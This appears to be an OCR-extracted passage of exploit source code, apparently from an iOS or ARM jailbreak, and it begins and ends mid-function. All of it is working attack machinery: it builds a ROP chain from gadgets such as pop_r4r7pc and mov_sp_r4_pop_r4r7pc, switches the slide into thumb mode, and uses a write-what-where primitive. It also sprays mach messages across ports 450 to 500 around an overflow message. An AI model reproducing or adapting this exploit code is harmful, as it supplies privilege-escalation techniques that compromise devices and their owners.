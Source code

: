             
            PUSH = 0x44444444;
            PUSH = m_m_scratch;
            PUSH = pop_r4r7pc; // PC
            PUSH = send_2048_break; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            *wcont = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            
        }
    }
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref1(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 0,SEG_VAR(testmsg),13,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    RecvMsg(PUSH, 480, oflow_msg); // hang
    RopCallFunction2(PUSH, @"___syscall", SYS_exit, 13);
    
    stack = (uint32_t*)stacky;
    segstackbase = (uint32_t)segstackybase;
    stackbase = (uint32_t*)stack;
    PUSH = 0x44444444; // R4
    PUSH = m_m_scratch; // R7
    
    for (int i = 450; i < 500; i++) {
        if (i != 480) {
            WriteWhatWhere(PUSH, 0, SEG_VAR(oflow_msg.desc.address));
            RecvMsg(PUSH, i, oflow_msg);
            StoreR0(PUSH, SEG_VAR(tmp1));
            
            PUSH = pop_r4r7pc; // PC
            uint32_t* wcmpl = stack;
            PUSH = 0; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            uint32_t send_1024_cont = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            SendMsg(PUSH, i, oolmsg_template);
            PUSH = pop_r4r7pc; // PC
            uint32_t* wcont = stack;
            PUSH = 0; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            uint32_t send_1024_break = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            [dy setSlide:dy.slide+1]; // enter thumb
            RopCallFunction9Deref1(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 0,SEG_VAR(msgb),0,0,0,0,0,0,0);
            [dy setSlide:dy.slide-1]; // exit thumb
            